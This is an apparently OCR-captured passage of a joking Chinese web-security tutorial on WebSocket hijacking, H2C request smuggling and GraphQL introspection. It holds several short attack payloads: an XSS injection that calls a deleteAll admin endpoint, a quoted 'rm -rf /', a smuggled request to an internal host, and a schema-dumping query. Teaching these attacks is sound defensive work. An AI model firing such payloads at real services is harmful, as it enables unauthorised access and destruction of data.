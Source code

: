   ### 5.23 WebSocket劫持：直播间の暗度陈仓
  
  当你的聊天室像菜市场般信任所有WebSocket连接：
  
  <JAVASCRIPT>
  
  ```
  // 握手时宇宙第一随意
  if(req.headers.origin.includes('web')){
      upgradeToWebSocket() // 通过！
  }
  ```
  
  黑客掏出祖传代码：
  
  <PYTHON>
  
  ```
  ws = create_connection("ws://victim/chat")
  ws.send("""<img src=0 onerror="fetch('/admin/deleteAll')">""")
  ```
  
  整个聊天室突然播放《后宫の诱惑》小剧场，弹幕区秒变管理员后门。系统广播还贴心地提醒："感谢老铁送的穿云箭，已执行rm -rf /"
  
  **协议哲学**：当开发者在WebSocket握手时用原生JS写验证逻辑，就像用薯片当门锁——黑客咬起来嘎嘣脆
  
  ------
  
  ### 5.24 H2C走私：HTTP协议の量子纠缠
  
  发现服务器开着HTTP/2明文传输（h2c）：
  
  ```
  POST / HTTP/1.1
  Host: victim.com
  Upgrade: h2c  
  Connection: Upgrade  
  ```
  
  利用中间件对协议的量子力学理解差异，发动降维打击：
  
  ```
  GET /private HTTP/1.1\r\n
  Host: internal.service\r\n\r\n
  <走私攻击载荷>
  ```
  
  攻击效果堪比让霍金在防护墙上签字——内网服务在看到外星文字般的请求后羞涩敞开
   **史诗级翻车**：某云服务商因H2C配置引发连环走私，黑客在内网挖到老板用k8s部署的《羊了个羊》私服
  
  ------
  
  ### 5.25 GraphQL艳照门：API界の免检裸奔
  
  当开发者兴奋地开启内省查询：
  
  <GRAPHQL>
  
  ```
  query {__schema{types{name fields{name args{name}}}}}
  ```
  
